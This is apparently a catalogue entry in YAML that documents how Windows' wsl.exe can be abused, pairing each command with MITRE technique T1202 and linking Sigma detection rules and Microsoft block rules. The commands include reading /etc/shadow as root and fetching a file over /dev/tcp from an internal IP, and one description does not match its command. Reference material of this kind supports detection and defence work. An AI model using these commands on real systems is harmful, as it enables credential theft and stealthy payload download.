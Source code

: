 ```yaml
---
Name: Wsl.exe
Description: Windows subsystem for Linux executable
Author: 'Matthew Brown'
Created: 2019-06-27
Commands:
  - Command: wsl.exe -e /mnt/c/Windows/System32/calc.exe
    Description: Executes calc.exe from wsl.exe
    Usecase: Performs execution of specified file, can be used to execute arbitrary Linux commands.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows 19 Server
  - Command: wsl.exe -u root -e cat /etc/shadow
    Description: Cats /etc/shadow file as root
    Usecase: Performs execution of arbitrary Linux commands as root without need for password.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows 19 Server
  - Command: wsl.exe --exec bash -c 'cat file'
    Description: Cats /etc/shadow file as root
    Usecase: Performs execution of arbitrary Linux commands.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows 19 Server
  - Command: wsl.exe --system calc.exe
    Description: Execute the command as root
    Usecase: Performs execution of arbitrary Linux commands as root without need for password.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 11
  - Command: wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
    Description: Downloads file from 192.168.1.10
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10, Windows 19 Server
Full_Path:
  - Path: C:\Windows\System32\wsl.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/2a4e6d8ebeb07d294e6d16a083361bd7e53df7b3/rules/windows/process_creation/proc_creation_win_lolbin_susp_wsl.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - IOC: Child process from wsl.exe
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - Link: https://twitter.com/nas_bench/status/1535431474429808642
Acknowledgement:
  - Person: Alex Ionescu
    Handle: '@aionescu'
  - Person: Matt
    Handle: '@NotoriousRebel1'
  - Person: Asif Matadar
    Handle: '@d1r4c'
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
---
```

